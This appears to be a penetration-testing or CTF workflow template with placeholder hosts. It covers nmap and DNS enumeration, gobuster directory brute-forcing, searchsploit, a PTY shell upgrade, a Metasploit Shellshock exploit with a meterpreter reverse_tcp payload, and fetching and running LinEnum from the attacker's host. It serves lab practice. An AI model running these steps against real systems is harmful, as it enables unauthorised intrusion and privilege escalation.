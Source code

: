 # tempalte, flow

## Summary

+ example

## prev enum

```sh
sudo nmap -sS -sC -sV -oA ./nmap/full_sS -O -p- <rhostslot>
  # rename-tab
sudo vim /etc/hosts
<rhostslot>    <name>
```

## web enum

### dns recon

```sh
nslookup
  # AD, find DC, etc.

# try zone transfer
host -l <rhostslot> <dnsServer>
dnsrecon -d <rhostslot> -t axfr
  # dnsrecon -d megacorpone.com -t axfr
```

### gobuster

```sh
dict="/usr/share/wordlists/dirb/common.txt"
ls -lah $dict                                    # 36KB
gobuster dir -u http://<rhostslot>/ -w $dict -t 20 -e -x php,asp,json,aspx
  # 5min
  # find /cgi-bin/ (status 403)

gobuster dir -u http://<rhostslot>/cgi-bin/ -w $dict -t 20 -e -x cgi,sh,pl,py,rb,php
  # 5min
  # find /user.sh (status 200)
```

## exploit (user shell)

### searchsploit

```sh
search keywords
searchsploit keywords
```

```sh
cdee
cp /usr/share/exploitdb/exploits/example ~/assets/example/temp.php
cda
```

### example-vector

### interactive shell

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
  # C-z to background the shell
stty raw -echo; fg
```

## exploit (root)

### post enum

```sh
ps aux
sudo -l
```

### privilege escalation

```sh
```

## msf

```msfconsole
msf> search <keywords>
  # 2  exploit/multi/http/apache_mod_cgi_bash_env_exec      2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
msf> use 2
msf> show advanced
msf> show options
msf> set RHOSTS <rhostslot>
msf> ...

msf> show payloads
  # 14 payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
msf> set payload 14

msf> run -j
  # meterpreter user shell
```

## util

+ rhost

```sh
wget <lhostslot>:8000/linenum.sh -O /tmp/linenum.sh
bash /tmp/lineum.sh > /tmp/linenumOut.md

python -m SimpleHTTPServer 8000 /tmp
```

+ lhost

```sh
wget <rhostslot>:8000/linenumOut.md
```
